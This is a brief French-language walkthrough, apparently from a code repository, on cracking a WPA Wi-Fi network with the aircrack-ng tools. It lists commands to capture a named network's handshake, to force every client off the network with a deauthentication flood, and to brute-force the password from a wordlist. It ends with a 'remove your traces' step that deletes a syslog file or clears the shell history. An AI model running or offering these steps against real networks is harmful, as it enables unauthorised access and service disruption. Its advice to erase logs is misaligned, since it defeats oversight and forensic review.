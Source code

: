 # Explication 

## 1 - Handshake + bruteforce

### Récupérer handshake :

Passage en mode monitor : airmon-ng start wlan0
Écoute du trafic alentour : airodump-ng wlan0mon => récupère le BSSID et le channel de SRIOEYE1
Ecoute sur channel : iwconfig wlan0mon channel <num_channel>
Capture pour récupérer le handshake : airodump-ng –bssid <bssid> -c <num_channel> -w log wlan0mon
Forcer la déconnexion de tout le monde : aireplay-ng -0 0 -a <bssid> wlan0mon

### Brute Force :

aircrack-ng log-01.cap -w dico.txt

## 2 - Supprimer ses traces

rm /var/sys/syslog ou alors history -c

